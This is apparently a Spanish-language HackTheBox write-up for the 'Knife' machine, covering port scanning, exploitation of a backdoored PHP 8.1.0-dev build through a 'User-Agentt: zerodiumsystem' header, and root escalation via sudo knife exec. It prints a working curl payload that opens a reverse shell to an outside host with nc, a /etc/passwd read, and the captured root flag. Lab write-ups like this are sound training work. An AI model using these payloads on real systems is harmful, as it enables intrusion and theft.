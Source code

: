 ```yaml
---
title: HackTheBox - Knife
categories: [Linux]
tags: [HackTheBox]
image: knife.png 
img_path: /assets/HTB/Knife/
---
```


En este post voy a explicar como resolver la máquina Knife de [Hack The Box](https://app.hackthebox.com/machines/347), en la cual vamos a estar tocando un Remote Code Execution mediante la cabezera ```User-Agent``` y luego para la escalada utilizaremos los permisos de la herramienta ```Knife```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH) y 80 (HTTP) abiertos.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="knife-pagina.png">

Si usamos la herramienta whatweb la cual sirve para recopilar información sobre una aplicación web, vemos que se está utilizando PHP/8.1.0-dev.


```
$ whatweb http://10.10.10.242/

Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], PHP[8.1.0-dev], Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

El problema que hay con esta versión, es que es vulnerable a un Remote Code Execution, ya que un atacante puede ejecutar comandos usando la siguiente cabecera ```User-Agentt: zerodiumsystem("cat /etc/passwd");```

# Reverse Shell
Para ganar acceso a la máquina, nos mandaremos una Reverse Shell explotando la vulnerabilidad anteriormente encontrada.

```
$ curl 10.10.10.242 -H 'User-Agentt: zerodiumsystem("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.3 443 >/tmp/f");'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.242] 52680
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

# Enumeración del sistema

Una vez ganado acceso a la máquina, vemos que somos el usuario ```james```, si hacemos un sudo -l podemos ver que tenemos permiso para ejecutar el programa ```knife``` como ```root``` sin proporcionar contraseña.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

# Escalada de privilegios
Knife tiene un parámetro llamado exec, el cual permite la ejecución de scripts Ruby, les dejaré un ejemplo.

```
$ knife exec -E 'exec "/ruta/del/script"'
```

Sabiendo esto, podemos hacer que el usuario root ejecuta /bin/bash.

```
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
root@knife:/home/james# cd
root@knife:/# cat root.txt
126f179b57e1f6d63efc96636a914e6f
```
